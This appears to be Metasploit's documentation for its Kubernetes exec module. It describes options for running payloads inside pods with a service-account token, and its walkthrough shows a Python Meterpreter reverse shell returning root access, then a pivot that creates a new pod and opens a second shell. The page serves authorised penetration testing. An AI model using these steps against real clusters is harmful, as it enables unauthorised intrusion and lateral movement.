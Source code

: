 ## Vulnerable Application

### Description

Execute a payload within a Kubernetes pod.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/kubernetes/exec`
3. Set the required options
4. Do: `run`
5. You should get a shell.

## Options

### SESSION
An optional session to use for configuration. When specified, the values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT`
will be gathered from the session host. This requires that the session be on an existing Kubernetes pod. The necessary
values may not always be present.

Setting this option will also automatically route connections through the specified session.

### TOKEN
The JWT token. The token with the necessary privileges to access the exec endpoint within a running pod and optionally
create a new pod.

### POD
The pod name to execute in. When not specified, a new pod will be created with an entrypoint that allows it to run
forever. After creation, the pod will be used to execute the payload. **The created pod is not automatically cleaned
up.** A note containing the created pod's information will be added to the database when it is connected.

### NAMESPACE
The Kubernetes namespace that the `TOKEN` has permissions for and that `POD` either exists in or should be created in.

### SHELL
The shell to use for execution. `bash` is likely preferred from a usability perspective, but is not present as often as
`sh` is.

### PodName
*This is an advanced option.*

The image from which to create the pod. When a new pod is created (`POD` is blank), this option can be used to specify
the image that is used. If this option is blank, each image will be tried from the list of running pods until one
successfully starts.

### TARGET
#### Interactive WebSocket
Communicate directly with the pod using the Kubernetes WebSocket API. This is the most similar option to the `kubectl
exec --stdin --tty` command. No Metasploit payload is transferred to the target.

### Unix Command
Run the specified command payload and read the output. Custom commands can be run with the `cmd/unix/generic` payload.

### Linux Dropper
Use a command stager to transfer a Metasploit payload to the target and execute it. This will result in the payload
being written to disk and will require potentially non-standard binaries to be present on the remote system, depending
on the selected `CMDSTAGER::FLAVOR` option.

### Python
Run a Python payload on the remote host. This technique will automatically find and use either a `python`, `python3`, or
`python2` binary on the remote system to use for execution.

## Scenarios

### Kubernetes v1.22.1
In this scenario, Metasploit has direct access to the Kubernetes API. A known token is used to execute a Python payload
within the `thinkphp-67f7c88cc9-tgpfh` pod.

```
msf6 > use exploit/multi/kubernetes/exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python 
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```

Next, the compromised session is used to access the internal Kubernetes endpoint, create a new pod and open a shell
directly via a WebSocket.

```
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```
